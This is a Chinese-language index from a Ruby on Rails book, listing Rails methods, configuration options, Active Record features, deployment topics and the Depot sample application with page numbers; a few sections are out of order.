      - 在 memcached 服务器中, 519
      - 在内存中, 519
  - Sweeper, 461
    - 基于时间的过期, 462
    - 缓存内容, 458
- calculate 方法, 307
- call 方法, 565
- 回调, *参见* Active Record, 回调
- 回调 (AJAX), 531
- Capistrano, 619-620
  - 假设, 620
  - 使用 Capistrano 部署, 624
  - 钩子, 623
  - *另请参见* 部署
- capistrano.rake, 624
- 购物车
  - 在会话中访问, 107
  - 设计问题, 66
- 层叠样式表, *参见* 样式表
- :cc 参数, 478
- cc 头 (电子邮件), 571
- CGI, 618
  - *另请参见* 部署; Web 服务器
- change 方法, 253
- change_column 方法, 269
- Char 列类型, 287
- 字符集 (电子邮件), 571
- chars 方法, 258
- check_box 方法, 486
- 子表, *参见* 关联
- CISP 合规性, 610, 614
- Clark, Mike, 185
- 类 (Ruby), 631, 635
  - 自动加载, 243
- 类层次结构, *参见* Ruby, 继承; 单表继承
- :class_name 参数, 317, 332, 339
- Clob 列类型, 287
- 代码 (下载书籍的), 17
- 代码块 (Ruby), 640
  - 扩展关联, 343
- 协作, 17
- 集合
  - 在表单上编辑, 499
  - 迭代, 124, 511
- :collection 参数, 124, 417, 511
- collection_select 方法, 488
- colorize_logging (配置), 647
- :cols 参数, 486
- 列, *参见* Active Record, 属性
- column 方法, 271
- 数据库中的列类型, 267
- columns 方法, 381
- columns_hash 方法, 381
- 命令行, 36
  - 从命令行运行应用程序, 234, 580
- 注释 (Ruby), 633
- 提交, *参见* 事务
- 组件 (已弃用), 123n, 513
- composed_of 方法, 317
  - :class_name 参数, 317
  - :mapping 参数, 317
- 复合主键, 291
- 组合, *参见* 聚合
- 压缩响应, 450
- :conditions 参数, 299, 302, 308, 329, 332, 339, 398
- conditions_by_like 方法, 528
- 配置, 238–241
  - config/ 目录, 238
  - 数据库连接, 239
  - database.yml, 70, 71
  - 环境, 238
  - 参数, 241, 645–652
  - 设置环境, 238
- 配置参数
  - allow_concurrency (Active Record), 647
  - asset_host (Action Controller), 479, 649
  - breakpoint_server (全局选项), 645
  - cache_classes (全局选项), 645
  - cache_template_extensions (Action Controller), 650
  - cache_template_loading (Action Controller), 650
  - colorize_logging (Active Record), 647
  - connection_adapters (全局选项), 645
  - consider_all_requests_local (Action Controller), 649
  - controller_paths (全局选项), 646
  - database_configuration_file (全局选项), 646
  - debug_rjs (Action Controller), 651
  - debug_routes (Action Controller), 649
  - default_charset (Action Controller), 649
  - default_charset (Action Mailer), 570, 651
  - default_content_type (Action Mailer), 651
  - default_error_messages (Active Record), 648
  - default_mime_version (Action Mailer), 651
  - default_timezone (Active Record), 376, 647
  - delivery_method (Action Mailer), 568, 651
  - erb_trim_mode (Action Controller), 651
  - field_error_proc (Action Controller), 651
  - fragment_cache_store (Action Controller), 460, 519, 649
  - frameworks (全局选项), 646
  - generate_read_methods (Active Record), 647
  - ignore_missing_templates (Action Controller), 649
  - ignore_tables (Active Record), 649
  - implicit_parts_order (Action Mailer), 651
  - load_once_paths (全局选项), 646
  - load_paths (全局选项), 646
  - lock_optimistically (Active Record), 392, 647
  - log_level (全局选项), 646
  - log_path (全局选项), 646
  - logger (Action Controller), 650
  - logger (Action Mailer), 651
  - logger (Active Record), 647
  - logger (全局选项), 646
  - page_cache_directory (Action Controller), 463, 650
  - page_cache_extension (Action Controller), 463, 650
  - param_parsers (Action Controller), 650
  - perform_caching (Action Controller), 458, 650
  - perform_deliveries (Action Mailer), 570, 651
  - plugin_paths (全局选项), 646
  - pluralize_table_names (Active Record), 647
  - pre_loaded_fixtures (测试), 652
  - primary_key_prefix_type (Active Record), 648
  - raise_delivery_errors (Action Mailer), 570, 652
  - record_timestamps (Active Record), 376, 648
  - schema_format (Active Record), 648
  - server_settings (Action Mailer), 569, 652
  - session_store (Action Controller), 650
  - table_name_prefix (Active Record), 648
  - table_name_suffix (Active Record), 648
  - template_class (Action Controller), 650
  - template_root (Action Controller), 429, 466, 650
  - template_root (Action Mailer), 652
  - use_instantiated_fixtures (测试), 652
  - use_transactional_fixtures (测试), 652
  - verbose (Active Record), 649
  - view_controller_internals (Action Controller), 650
  - view_path (全局选项), 646
  - whiny_nils (全局选项), 646
- :confirm 参数, 476
- 销毁时确认, 91
- connect 方法, 397
  - :conditions 参数, 398
  - :defaults 参数, 397
  - :format 参数, 422
  - :requirements 参数, 398
- 连接到数据库, 69, 291
- 连接错误, 诊断, 71
- connection_adapters (配置), 645
- consider_all_requests_local (配置), 649
- console 脚本, 245
- console (脚本), 233
  - console 脚本, 170
    - 生产模式, 627
- 常量, 633
- 构造函数, 631
- 内容类型
  - 默认字符集为 UTF-8, 260
  - 电子邮件, 571, 575
  - 渲染, 432
  - 和 REST, 422
  - *另请参见* HTTP, Accept 头
- Content-Type, 504
- @content_for_layout, 99
- content_tag 方法, 496
- :content_type 参数, 432
- 持续集成, 36
- 控制结构 (Ruby), 639
- 控制器
  - Action Controller, 30
  - 组件, *参见* 组件
  - 意外暴露 action, 605
  - 功能, 30
  - 生成, 46, 76, 94
  - 处理请求, 24
  - index action, 95
  - 实例变量, 53
  - 与模型和视图的集成, 481
  - 命名约定, 242
  - 职责, 23
  - 子类, 454
  - 子模块, 243, 408
    - 从模板访问, 467
    - 在 URL 中, 25, 47, 394
    - 使用局部模板, 512
  - *另请参见* Action Controller; MVC
- controller 属性, 467
- controller_paths (配置), 646
- 约定优于配置, 15, 24, 28, 56, 69, 241, 284
- Cookies, 436-446
  - 过期, 437
  - 用于会话, 105
  - 选项, 437
  - 限制访问, 437
  - _session_id, 438
  - 易受攻击, 606
    - *另请参见* 会话
- cookies 属性, 206, 426, 436
- 核心团队, Rails, 19
- Coué, Émile, 12
- count 方法, 307
- count_by_sql 方法, 309
- 计数器
  - 缓存, 362
  - 在部分集合中, 512
- :counter_cache 参数, 362
- 计数行, 309
- 耦合
  - 使用 MVC 降低, 23
- create 方法, 297, 313, 603
- 创建新应用程序, 43, 68
- create! 方法, 313, 342
- create_table 方法, 271
- created_at/created_on 列, 322, 376
- 信用卡处理, 142
- cron 命令, 445, 627
- 跨站脚本, *参见* 安全, 跨站脚本
- CRUD, *参见* Active Record
- CSS, *参见* 样式表; 测试, assert_select
- curl, 178, 180
- 货币
  - 存储, 81
  - 使用聚合, 319
- 自定义表单构建器, 495
- 客户
  - 与客户合作, 62
- CVS, 36
- cycle 方法, 91, 475
- Cygwin, 73

- Dapper Drake, 36
- DarwinPorts, *参见* 安装 Rails, 在 Mac OS X 上: MacPorts
- 数据迁移, 275
- 数据传输, 432
- 数据库
  - 表现为..., 355
  - 适配器, 70
  - 添加列, 79
  - 在生产环境中更改 database.yml, 623
  - 字符集, 259
  - 列名到属性, 285
  - 列类型映射, 287
  - 列类型, 267
  - 连接到, 69, 71, 239, 291
  - 连接错误, 71
  - 连接和模型, 295

### D

- Berners-Lee, Sir Tim, 463
- :binary 列类型, 267
- 绑定变量 (SQL), 601
- blank 方法, 249, 365
- 空行, 移除, 51
- 盲注效果, 134
- Blob 列类型, 287
- 块 (Ruby), 640
- Blogger, 585
- BlueCloth (格式化), 476
- :body 参数, 478
- 布尔列类型, 287, 288
- :boolean 列类型, 267
- 瓶颈, *参见* 性能
- breakpoint_server (配置), 645
- breakpointer (脚本), 233
- 断点, 233, 246
  - breakpointer 命令, 246
- Breedt, Leon, 504
- Brodwall, Johannes, 610
- Buck, Jamis, 19, 620
- :buffer_size 参数, 433
- Builder, *参见* 模板, rxnml
- :builder 参数, 498
- 业务逻辑 (从模板中分离), 469
- 业务规则, 22
- 繁忙指示 (AJAX), 526
- button_to 方法, 101, 118, 464, 477
  - :id 参数, 101
- button_to_function 方法, 535
- bytes 方法, 253


#### 数据库

- 统计子行，362
- _count 列，363
- 统计行数，309
- 创建行，296
- 使用 mysqladmin 创建，69
- 创建，69
- 日期和时间格式化，254
- DB2，40，292
- 部署，622
- 嵌入式 SQL，26
- 使用模型封装，27
- Firebird，40，292
- 测试夹具，参见 测试，夹具
- 外键，141，324，349n
- Frontbase，292
- 分组查询，308
- 索引，273
- 连接表，328
- 遗留模式，289
- like 子句，301
- 将表映射到类，27，285
- 迁移，参见 迁移
- MySQL，40，41，292
- Openbase，293
- Oracle，40，294
- 密码，40，70
- phpMyAdmin，73
- Postgres，40，41，294
- 预加载子行，362
- 主键列，274，289
  - 禁用，275，327
- 远程，71
- 重命名表，272
- 行作为对象，28
- 其中的 Ruby 对象，315
- schema_info 表，76
- 安全性，623
- 自引用连接，354
- 其中的会话，106
- SQL Server，40，41，294
- SQLite，41，294
- 列值统计，307
- 支持的，239，291
- Sybase，295
- 表命名，241，285
- 测试，参见 测试，单元测试
- 事务，参见 事务
- 用户，70
- 另见 Active Record；模型

##### database.yml

- 70，71，239，296
  - 其中的别名，239
  - 在生产环境中更改，623

##### database_configuration_file (config)

- 646

#### 日期

- 列，287，376
- 格式化，474
- 头部（电子邮件），572
- 缩放方法，253
- 选择小部件，490
- :date 列类型，267

##### Date 扩展

- to_s，254
- to_time，254

##### 日期格式化

- 254

##### date_select 方法

- 490

##### Datetime 列类型

- 287

##### :datetime 列类型

- 267

##### datetime_select 方法

- 490

##### Davidson, James Duncan

- 35，36，614

##### days 方法

- 253

##### DB2

- 292，参见 数据库

##### db:migrate

- 71，75，265

##### db:schema:version

- 232

##### db:sessions:clear

- 111

##### db:sessions:create

- 106

##### db:test:prepare

- 188

##### DBI (数据库接口)

- 26，41

##### DDL

- 参见 数据库；SQL

##### Debian

- 36

##### debug 方法

- 246，467，475

##### debug_js (config)

- 651

##### debug_routes (config)

- 649

#### 调试

- AJAX，130
- 断点，233，246
- 使用控制台，233，245
- debug，246
- 显示请求，467
- 提示，245–247

##### Decimal 列类型

- 287

##### :decimal 列类型

- 267

##### Decimal 类型，用于货币

- 81

#### 声明

- 解释，635
- acts_as_list (Active Record)，355
- acts_as_tree (Active Record)，357
- after_create (Active Record)，374
- after_destroy (Active Record)，374
- after_find (Active Record)，374，376
- after_initialize (Active Record)，374，376
- after_save (Active Record)，374
- after_update (Active Record)，374
- after_validation (Active Record)，374
- after_validation_on_create (Active Record)，374
- after_validation_on_update (Active Record)，374
- attr_protected (Active Record)，603
- before_create (Active Record)，374
- delay 方法，565
- :delegated 参数，591
- before_destroy (Active Record)，374
- delete 方法，203，314，427，605
- before_save (Active Record)，374
- DELETE (HTTP 方法)，427
- before_update (Active Record)，374
- delete_all 方法，314
- before_validation (Active Record)，374
- delivery_method (config)，568，651
- before_validation_on_create (Active Record)，374
- :dependent 参数，332
- before_validation_on_update (Active Record)，374
- deploy.rb，624
- belongs_to (Active Record)，327–329
- cache_sweeper (Action Controller)，462
- caches_action (Action Controller)，458
- caches_page (Action Controller)，457
- composed_of (Active Record)，317
- filter_parameter_logging (Action Controller)，611
- has_and_belongs_to_many (Active Record)，328
- has_many (Active Record)，328，336
- has_one (Active Record)，327，331
- helper (Action Controller)，473
- in_place_edit_for (Action Controller)，555
- layout (Action Controller)，507
- map.connect (路由)，394
- model (Action Controller)，438
- observer (Action Controller)，381
- paginate (Action Controller)，481
- primary_key= (Active Record)，290
- serialize (Active Record)，315
- set_primary_key (Active Record)，290
- set_table_name (Active Record)，285
- validates_acceptance_of (验证)，367
- validates_associated (验证)，367
- validates_confirmation_of (验证)，368
- validates_each (验证)，368
- validates_exclusion_of (验证)，369
- validates_format_of (验证)，369
- validates_inclusion_of (验证)，370
- validates_length_of (验证)，156，370
- validates_numericality_of (验证)，371
- validates_presence_of (验证)，371
- validates_size_of (验证)，372
- validates_uniqueness_of (验证)，372
- verify (Action Controller)，454
- web_service (Action Controller)，592

##### def 关键字 (方法)

- 633

##### 默认操作

- 参见 操作，索引

##### default_charset (config)

- 570，649，651

##### default_content_type (config)

- 651

##### default_error_messages (config)

- 648

##### default_mime_version (config)

- 651

##### default_timezone (config)

- 376，647

##### default_url_options 方法

- 405

##### :defaults 参数

- 397

#### 部署

- 614
- Apache，625
- Apache，618
- Capistrano，619，624
- 数据库，622
- 通过电子邮件报告应用错误，628
- 环境，620
- FastCGI，617
- lighttpd，619
- 负载均衡，617，619
- 机器配置，621
- Mongrel，617，623
- 监控已部署的应用程序，626
- 请求代理，617
- 必需的软件，621
- 验证，625
- 何时开始，615
- 另见 Capistrano

#### Depot 应用程序

- 62
- 管理，155
- AJAX，122
- 购物车设计问题，66
- 商品目录列表，94
- 结账，140
- 错误处理，113
- 布局，98
- 登录，163
- 购物车，104
- 源代码，653–683

##### destroy 方法

- 314，334，389，605

##### Destroy 命令

- 233
- 另见 Generate 命令

##### destroy (脚本)

- 233

##### destroy_all 方法

- 314

#### 开发

- 环境，36
- 重新加载代码，52
- 服务器，44

##### development.rb

- 240

##### Digest

- 155

##### :direct 参数

- 591

#### 目录结构

- 43，229–237
- 加载路径，240
- 测试，186

##### display: none

- 135

##### :disposition 参数

- 432，433
- 432

##### :distinct 参数

- 308

##### do ... end (代码块)

- 640

##### doc/ 目录

- 231

##### doc:app

- 644

##### <!DOCTYPE...> 与 Internet Explorer

- 89，131

#### 文档

- 应用程序，182
- Rails，19，39

##### DOM 操作

- 参见 AJAX

##### domain 属性

- 426

##### 用于测试的领域特定语言

- 217

##### 不要重复自己

- 参见 DRY

##### Double 列类型

- 287

##### DoubleRenderError 异常

- 428

##### down 方法

- 75，266

##### 下载源代码

- 17

##### 拖放

- 549

##### draggable 方法

- 566

##### draggable_element 方法

- 551

#### DRb

- 片段存储，519
- 会话存储，442

##### Dreamweaver

- 37n

##### drop_receiving_element 方法

- 551

#### DRY

- 15，17
- 与属性，286
- 与布局，506
- 与路由，401

##### 重复（消除）

- 参见 DRY

##### 动态内容

- 50，参见 模板

##### 动态查找器

- 158，310

##### 动态脚手架

- 参见 脚手架，动态

##### 动态 SQL

- 301

### E

#### -e 选项

- 238

#### each_char 方法

- 250

#### Edge Rails

- 236
- 另见 Rails，冻结

#### 就地编辑

- 555

#### 编辑器

- 36–39

#### effects.js

- 131

#### Element.hide

- 526

#### Element.show

- 526

#### EMail

- 参见 Action Mailer

#### email.encoded 方法

- 574

#### 封装数据库

- 27

#### :encode 参数

- 478

#### encodeURIComponent 方法

- 526

#### 加密

- 回调示例，377
- 数据加密，610

##### 行尾符，移除

- 51

##### end_form_tag 方法

- 502

##### ends_with 方法

- 250

##### Enumerable 扩展

- group_by，249
- index_by，250
- sum，250

##### env 属性

- 426

##### environment.rb

- 240

#### 环境

- 238
- 与缓存，458，516
- 自定义，238–240
- 电子邮件，568
- 加载路径，240
- 与日志记录，233，245
- 指定，238，240
- 测试，187

##### erase_render_results 方法

- 428

#### ERb

- 50
- 修剪模式，470
- 另见 模板，动态
- erb_trim_mode (config)，651

#### 错误

- 显示，116
- 控制器中的处理，113
- 模型中的处理，494–495
- 存储在 flash 中，114，446
- 验证，365
- 另见 验证

##### :error 参数

- 205

##### Error (日志级别)

- 245

##### 错误消息，内置在验证中

- 194，373

##### 通过电子邮件发送错误通知

- 628

##### error_message_on 方法

- 494

##### error_messages_for 方法

- 148，494

##### errors 属性

- 494

##### errors 对象

- 83

##### errors.add 方法

- 83，365

##### errors.clear 方法

- 365

##### errors.on 方法

- 365，494

##### 转义 HTML

- 53

##### establish_connection 方法

- 291，296

##### even 方法

- 252

##### exabyte 方法

- 253

##### 示例代码

- 653–683

##### :except 参数

- 450，595

#### 异常

- 电子邮件通知，628
- rescue，115
- Ruby，641
- 另见 错误处理

##### execute 方法

- 278

##### :expects 参数

- 588


expire_action 方法, 459
expire_fragment 方法, 517, 518
expire_page 方法, 459
过期缓存内容, 459, 517
过期会话, 445
表达式（内联）, 469

:select 参数, 303
查找（动态）, 310
find_all_by_ 方法, 310
find_all_tag 方法, 206
find_by_ 方法, 310
find_by_sql 方法, 305–307, 322, 382
find_or_create_by_ 方法, 311
find_or_initialize_by_ 方法, 311
find_tag 方法, 206
Firebird, 292
:first 参数, 301, 305
first 方法, 250, 357
Fixnum 扩展, 252
Fixture
    从其加载数据, 276
    另请参见 测试, fixture
fixture_file_upload 方法, 207
fixtures 方法, 192
Flash, 114, 446–448
    在其中显示错误, 116
    在布局中, 447
    .keep, 447
    .now, 161, 447
    限制, 448
    测试内容, 201
flash 属性, 201, 206, 467
平面文件，会话存储, 443
Float 列类型, 287
:float 列类型, 267
follow_redirect 方法, 206
follow_redirect! 方法, 220
:force 选项（用于 create_table）, 271
强制重新加载子对象, 336
外键，参见 Active Record；数据库，外键
:foreign_key 参数, 329, 332, 339
表单, 481–502
    替代字段辅助方法语法, 491
    check_box, 486
    collection_select, 488
    上的集合, 499
    content_tag, 496
    自定义构建器, 495
    数据, 149, 298
    数据流向, 164
    date_select, 490
    datetime_select, 490
    end_form_tag, 502
    error_messages_for, 148
    中的字段, 485
    file_field, 503
    form_for, 145, 483
    form_tag, 164, 484, 499, 502
    辅助方法, 483–491
    hidden_field, 485
    就地编辑, 555
    多部分数据, 502
    多个模型, 491
    空操作, 524
    非模型字段, 499-502
    option_groups_from_collection_for_select, 489
    password_field, 485
    password_field_tag, 164
    radio_button, 486
    参数安全问题, 602
    select, 487
    select_date, 490
    select_datetime, 490
    select_day, 490
    select_hour, 490
    select_minute, 490
    select_month, 490
    select_second, 490
    select_tag, 500
    select_time, 490
    select_year, 490
    从数据库表生成选择列表, 487
    带分组的选择列表, 488
    提交, 481
    text_area, 146, 486
    text_field, 145, 485
    text_field_tag, 164, 500
    通过其上传文件, 502
    另请参见 辅助方法

Fuchs, Thomas, 19, 543
功能测试，参见 测试

Gehtland, Justin, 522
gem_server, 19, 39
generate 方法, 396, 401
generate 命令
    controller, 46, 76, 94, 244
    mailer, 570
    migration, 80
    model, 74
    scaffold, 76, 86
    web_service, 585
generate 脚本, 233
    controller, 160
generate_read_methods (config), 647
get 方法, 161, 200, 203, 214, 220, 427
GET (HTTP 方法), 160, 427
    问题, 91, 463-465
get_via_redirect! 方法, 221
Gibson, Joey, 41
gigabytes 方法, 253

全局选项
    breakpoint_server (config), 645
    cache_classes (config), 645
    connection_adapters (config), 645
    controller_paths (config), 646
    database_configuration_file (config), 646
    frameworks (config), 646
    load_once_paths (config), 646
    load_paths (config), 646
    log_level (config), 646
    log_path (config), 646
    logger (config), 646
    plugin_paths (config), 646
    view_path (config), 646
    whiny_nils (config), 646

Google
    Web Accelerator, 463
:group 参数, 304
分组依据, 308
group_by 方法, 249
选择列表中的分组选项, 488
Gruhier, Sébastien, 535

Form.serialize 方法, 537
form_for 方法, 145, 483
    :builder 参数, 498
    :html 参数, 484
    :url 参数, 145, 484
form_remote_tag 方法, 128, 537, 540
    :html 参数, 541
form_tag 方法, 164, 484, 499, 502
    :multipart 参数, 484, 503
:format 参数, 422
格式化辅助方法, 474
FormBuilder, 495
fortnights 方法, 253
片段缓存，参见 缓存，片段
fragment_cache_store (config), 460, 519, 649
框架, 14
frameworks (config), 646
冻结 Rails，参见 Rails，冻结
:from 参数, 304
from 方法, 250
发件人地址（电子邮件）, 571
from_now 方法, 253
Frontbase, 292

h 方法, 53, 91, 96, 471, 608
has_and_belongs_to_many 方法, 328, 338, 361
    :class_name 参数, 339
    :conditions 参数, 339
    :foreign_key 参数, 339
has_many 方法, 142, 328, 336, 341, 361
    :select 参数, 342
    :source 参数, 341
    :through 参数, 176, 341
    :unique 参数, 342
has_one 方法, 327, 331, 350
    :as 参数, 351
    :class_name 参数, 332
    :conditions 参数, 332
    :dependent 参数, 332
    :foreign_key 参数, 332
哈希（摘要）, 155
哈希（Ruby）, 638
    在参数列表中, 639
:having 参数, 308
head 方法, 203, 427
HEAD (HTTP 方法), 427
headers 属性, 426, 433, 436, 467
头部（请求）, 426
Hello World!, 45
辅助类
    PrototypeHelper, 523
helper 方法, 473
helper_method 方法, 473
辅助方法, 58, 472-473
    auto_discovery_link_tag, 479
    button_to, 101
    button_to_function, 535
    conditions_by_like, 528
    cycle, 91, 475
    debug, 467, 475
    draggable_element, 551
    drop_receiving_element, 551
    error_messages_for, 494
    fields_for, 492
    form_remote_tag, 128, 537, 540
    h, 53, 91, 96, 471, 608
    html_escape, 471
    image_tag, 477
    用模块实现, 637
    in_place_editor_field, 556
    javascript_include_tag, 129, 478, 528
    link_to, 57, 100
    link_to_function, 535
    link_to_remote, 529
    mail_to, 478
    markdown, 476
    命名约定, 242
    number_to_currency, 100
    observe_field, 536
    observe_form, 537
    remote_form_for, 538
    remote_function, 536
    replace_html, 130
    sanitize, 471, 608
    共享, 473
    sortable_element, 553
    stylesheet_link_tag, 89, 478
    submit_to_remote, 538
    text_field_with_auto_complete, 548
    textilize, 476
    truncate, 91
    验证，参见 验证
    visual_effect, 133, 558
    编写自己的, 135
    另请参见 表单
Hibbs, Curt, 32
hidden_field 方法, 485
    :maxlength 参数, 485
    :size 参数, 485
hide 方法, 563
hide_action 方法, 425
隐藏元素, 134
层次结构，参见 Ruby，继承；单表继承
higher_item 方法, 357
高亮（黄褪技术）, 131
HIPAA 合规性, 610, 614
:host 参数, 405
host! 方法, 221
hours 方法, 253
HTML
    电子邮件，发送, 574
    转义, 53, 471
    模板，参见 模板
:html 参数, 484, 541
html_escape 方法, 471, 608
HTTP
    Accept 头, 179, 422
    cookies, 436
    HTTP_REFERER, 436
    无状态, 104
    <meta> 标签, 260
    重定向, 433
    请求方法, 160
    使用文件扩展名的响应格式, 181
    在链接上指定动词, 416
    SSL, 611
    状态（返回）, 431
    link_to 的动词, 477
    动词与 REST, 409
HTTPS, 611
https 方法, 221
https! 方法, 221
humanize 方法, 251
超链接, 56

- id, 25, 108, 289, 325
    - 自定义 SQL 与, 322
    - 与对象标识, 321
    - 作为主键, 274
    - 模型安全问题, 604
    - 会话, 438
        - 安全问题, 608
    - 验证, 604
- id 列, 323
- :id 选项（用于 create_table）, 275, 327
- IDE, 36-39
    - 与 Web 服务一起使用, 597
- 幂等 GET, 91, 463-465
- 标识（模型对象）, 321
- 惯用法（Ruby）, 642
- if 语句, 639
- ignore_missing_templates (config), 649
- ignore_tables (config), 649
- 图片链接, 478
- image_tag 方法, 477
- implicit_parts_order (config), 651
- 就地编辑, 555
- in_groups_of 方法, 250
- in_place_edit_for 方法, 555
- in_place_editor_field 方法, 556
- :include 参数, 305, 361
- 增量开发, 60
- index 动作, 95
- 索引，数据库, 273
- index_by 方法, 250
- Inflector 模块, 251
- 信息（日志级别）, 245
- 继承，参见 Ruby，继承；单表继承
- initialize（Ruby 构造函数）, 631
- :inline 参数, 430
- 内联表达式, 469
- InnoDB，参见 数据库，InnoDB
- insert_html 方法, 562
- 安装 Rails, 31-42
    - 数据库适配器, 40
    - 在 Linux 上, 35
    - OS X 上的 Locomotive, 35
    - 在 Mac OS X 上, 34
    - 要求, 31
    - 更新, 42
    - 在 Windows 上, 32
- instance 方法, 381
- 实例（类的）, 631
- 实例方法, 632, 635
- 实例变量, 53, 632, 636
- Instant Rails, 32
- Int（整数）列类型, 287
- :integer 列类型, 267
- Integer，验证, 371
- 集成测试，参见 测试
- 集成，持续, 36
- 请求间存储，参见 Flash
- 拦截方法（Web 服务）, 593
- Internet Explorer
    - 怪异模式, 89, 131
- invoke 方法, 596
- invoke_delegated 方法, 596
- invoke_layered 方法, 596
- irb（交互式 Ruby）, 233, 245, 642
- IrreversibleMigration 异常, 270
- ISP（互联网服务提供商）, 42
- 遍历子对象, 334
- 迭代器（Ruby）, 640

### J

- JavaScript
    - 效果, 543
    - encodeURIComponent, 526
    - 过滤器, 530
    - 链接到页面, 478
    - Prototype, 522-543
    - 禁用时运行应用程序, 137
    - 安全问题, 606
    - 另请参见 AJAX；模板，rjs
- JavaScript 对象表示法, 248
- javascript_include_tag, 129
- javascript_include_tag 方法, 478, 528
- JavaServer Faces, 23
- jEdit, 38
- 连接，参见 Active Record：关联
- 连接表，参见 关联，多对多
- :joins 参数, 303, 308
- JSON（JavaScript 对象表示法）, 248
- JSP, 469

### K

- Katz, Bill, 444
- Kemper, Jeremy, 19
- Kilmer, Joyce, 475
- kilobytes 方法, 253
- Komodo, 38
- Koziarski, Michael, 19

## L

- last 方法, 250, 357
- last_month 方法, 253
- last_year 方法, 253
- :layered 参数, 591
- 布局, 98, 506
    - 在其中访问 flash, 447


## L

- @content_for_layout, 99
- 禁用, 508
- 命名约定, 242
- 向其传递数据, 509
- 渲染与否, 431
- 为布局选择动作, 507
- yield, 506
- 与 yield, 99
- :layout 参数, 431, 508
- layout 方法, 507
- 旧式 schema，参见 数据库
- less 命令, 116
- lib/ 目录, 231
- 模型对象的生命周期, 374
- Lighttpd
  - 分析, 619
- like 子句, 301
- :limit 参数, 302, 308
- link_to 方法, 57, 100, 464, 476
  - :confirm 参数, 476
  - :method 参数, 91, 416, 477
  - :popup 参数, 476
- link_to_function 方法, 535
- link_to_if 方法, 477
- link_to_remote 方法, 529, 533
  - :position 参数, 530
  - :update 参数, 530
- link_to_unless 方法, 477
- link_to_unless_current 方法, 477
- 页面链接, 56, 401–405, 476–479
  - JavaScript, 478
  - 副作用问题, 463–465
  - 样式表, 478
  - 使用图片, 476
- 链接表，参见 Active Record；关联
- Linux，安装 Rails, 35
- 列表，参见 集合；模板，partial
- 列表（使表作为列表）, 355
- 列表（表单上的选择）, 486
- 列表排序, 549
- 负载均衡, 617, 619
  - mod_proxy_balancer, 619
  - Pound, 617
- 加载路径, 240
- load_once_paths (配置), 646
- load_paths (配置), 646
- :lock 参数, 304
- lock_optimistically (配置), 392, 647
- lock_version 列, 322, 391
- 锁定, 390
- Locomotive, OS X 安装程序, 35
- log/ 目录, 233
- log_level (配置), 646
- log_path (配置), 646
- logger (配置), 646, 647, 650, 651
- logger 属性, 427, 467
- 日志记录, 114, 233, 244–245
  - 与环境, 245
  - 安全过滤, 611
  - 级别, 245
  - logger 对象, 427
  - 在生产环境中, 626
  - 滚动日志文件, 627
  - 静默, 224
  - 使用过滤器, 448
  - 使用 tail 查看, 39
- 登录, 155
  - 授权用户, 166
  - 记住原始 URI, 167
- lower_item 方法, 357
- Lucas, Tim, 273
- Lütke, Tobias, 20, 142

## M

- Mac OS X
  - 修复 Ruby 问题, 41
  - 安装, 34
- MacPorts, 35, 621
- 魔法列名, 322
- 邮件，参见 Action Mailer
- mail_to 方法, 478
  - :bcc 参数, 478
  - :cc 参数, 478
  - :encode 参数, 478
- 多对多，参见 关联
- map.connect 方法, 394
- :mapping 参数, 317
- markdown 方法, 476
- Markdown（格式化）, 476
- maximum 方法, 307
- :maxlength 参数, 485
- megabytes 方法, 253
- :member 参数, 417
- memcached
  - 片段存储, 519
  - 会话存储, 443
- `<meta>` 标签, 260
- metaWeblog, 585
- :method 参数, 91, 416, 477
- method 属性, 427
- _method 请求参数, 416n
- 方法拦截（Web 服务）, 593
- method_missing 方法, 425, 430
- 方法（Ruby）, 633
- midnight 方法, 253
- 迁移, 74, 75, 263–283，参见 数据库，迁移
  - 添加列, 79
  - add_column, 266
  - add_index, 273
  - 应用到数据库, 265
  - change_column, 269
  - 列, 271
  - 列类型, 267
  - create_table, 271
  - 数据迁移, 275
  - :default 选项, 267
  - down, 75, 266
  - execute, 278
  - :force 选项, 271
  - 强制版本, 266
  - 生成, 80, 265
  - 与 id 列, 271
  - :id 选项, 275, 327
  - 不可逆, 270
  - :limit 选项, 267
  - 从 fixtures 加载数据, 276
  - 管理, 282
  - 迁移数据, 278
  - :null 选项, 267
  - :options 选项, 271
  - :precision 选项, 269
  - :primary_key 选项, 274
  - 从错误中恢复, 280
  - remove_column, 266
  - remove_index, 273
  - rename_column, 269
  - rename_table, 272
  - 反向操作, 266
  - :scale 选项, 269
  - schema_info 表, 265
  - 顺序, 80
  - 设置表字符集, 260
  - 设置 id 列的初始值, 271
  - 内部 SQL, 278
  - :temporary 选项, 271
  - up, 75, 266
  - 在常规代码中使用, 281
  - 使用迁移验证连接, 71
  - 详细级别, 649
- minimum 方法, 307
- minutes 方法, 253
- :missing 参数, 205
- 混合大小写, 241
- Mixin（模块）, 637
- 模拟对象，参见 测试，模拟对象
  - 另见 测试
- mod_proxy_balancer, 619
- 模型
  - 聚合对象, 316
  - 属性, 285, 381, 481
  - 作为数据库的封装, 27
  - 错误处理, 494–495
  - 生成, 74
  - 与控制器和视图的集成, 481
  - 生命周期, 374
  - 表单中的多个模型, 491
  - 职责, 22
  - 安全性, 604
  - 与表命名, 285
  - 与事务, 388
  - 验证，参见 验证
  - 另见 Active Record；MVC
- model 方法, 438
- 模型-视图-控制器，参见 MVC
- 模块（用于控制器）, 243, 408
- 模块（Ruby）, 637
- Molina, Marcel, 20
- monday 方法, 253
- 金钱存储, 81
- Mongrel, 617
  - 配置, 623
  - 日志文件, 626
- 监控应用程序, 626
- months 方法, 253
- months_ago 方法, 253
- months_since 方法, 253
- move_higher 方法, 357
- move_lower 方法, 357
- move_to_bottom 方法, 357
- move_to_top 方法, 357
- 多字节库, 257
- :multipart 参数, 484, 503
- 多部分电子邮件, 575
- 多部分表单数据, 502
- 多线程, 647
- 火枪手，三个, 385
- MVC, 14, 22–30, 45
  - 减少耦合, 23
  - 在 Rails 中的集成, 481
- MySQL, 292，参见 数据库
  - 确定配置, 293
  - 未加载错误, 72
  - 安全性, 40
  - 设置字符集, 259
  - 套接字, 72
  - 标准差, 307
  - 版本, 621
- mysql.sock, 72
- mysqladmin, 69

## N

- 命名路由, 406
  - 位置参数, 407
- 名称（SQL 中的占位符）, 300
- 命名约定, 241–244
  - belongs_to, 329
  - 控制器, 242
  - 控制器模块, 244
  - 文件名, 241
  - has_one, 332
  - 辅助方法, 242, 472
  - 连接表, 326
  - 布局, 242, 507
  - 模型, 241, 285
  - 观察者, 380
  - 部分模板, 510
  - Ruby 类、方法和变量, 632
  - 共享部分模板, 512
  - 表, 241
  - 模板, 428, 466
  - 视图, 242
- 嵌套页面，参见 组件；布局
- 嵌套资源, 418
- .NET（与 Web 服务集成）, 585
- .NET（与 Web 服务集成）, 597
